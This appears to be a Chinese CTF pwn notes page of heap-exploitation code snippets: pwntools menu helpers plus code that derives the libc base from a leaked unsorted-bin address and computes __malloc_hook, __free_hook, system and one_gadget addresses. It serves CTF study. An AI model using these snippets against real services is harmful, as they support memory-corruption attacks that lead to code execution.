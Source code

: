 ```yaml
---
title: 利用代码片段
category: 堆
layout: post
---
```


### 交互函数

```python
def add(size):
    io.recvuntil('>')
    io.send('1')
    io.recvuntil('size?')
    io.send(str(size))

def edit(ticket, size, content):
    io.recvuntil('>')
    io.send('2')
    io.recvuntil('index?')
    io.send(str(ticket))
    io.recvuntil('size?')
    io.send(str(size))
    io.send(content)

def dele(ticket):
    io.recvuntil('>')
    io.send('4')
    io.recvuntil('index?')
    io.send(str(ticket))

def show(ticket):
    io.recvuntil('>')
    io.sendline('3')
    io.recvuntil('index?')
    io.sendline(str(ticket))
```

### 计算地址

- 接收泄露的 unsorted bin 地址

```python
unsorted_bins_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('unsorted_bins_addr -> ' + hex(unsorted_bins_addr))
```

- 计算 libc 基址

```python
main_area_addr = unsorted_bins_addr - 0x58
libc_base = main_area_addr - 0x3c4b20
log.success('main_area_addr -> ' + hex(main_area_addr))
log.success('libc_base -> ' + hex(libc_base))
```

- 计算 malloc hook 地址

```python
malloc_hook = libc_base + libc.sym['__malloc_hook']
log.success('malloc_hook -> ' + hex(malloc_hook))
```

- 计算 free hook 的地址

```python
free_hook = libc_base + libc.sym['__free_hook']
log.success('free_hook -> ' + hex(free_hook))
```

- 计算 system 函数地址

```python
system_addr = libc_base + libc.sym['system']
log.success('system_addr -> ' + hex(system_addr))
```

- 计算 one gadget 地址

```python
one_gadget_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadget_list[1]
log.success('one_gadget -> ' + hex(one_gadget))
```

